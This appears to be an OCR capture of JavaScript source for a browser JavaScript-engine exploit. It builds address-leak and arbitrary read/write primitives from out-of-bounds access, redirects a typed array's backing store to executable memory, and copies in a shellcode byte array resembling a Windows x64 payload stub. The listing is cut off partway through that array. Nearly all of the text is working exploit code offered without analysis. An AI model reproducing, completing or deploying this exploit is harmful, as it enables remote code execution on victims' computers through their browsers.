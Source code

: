 ``` html

function addrOf(obj) {
  b[0] = obj;
  let addrs = oobRead();
  dblArr[0] = addrs[0];
  return intView[1]; 
}

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));
  return writeArr[0];
}

function arbRead1(addr) {
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, addr));
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

function writeShellCode1(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
 
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, intArrAddr + 0x20));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

var other_method = false;
var instanceAddr = addrOf(instance);
var elementsAddr = ftoi32(addrs[1])[0];

if((elementsAddr & 0xFFFF) == 0x222D) {
  other_method = true;
  elementsAddr = ftoi32(addrs[1])[1];
}

var shellCode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
      0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
      0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
      0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
```
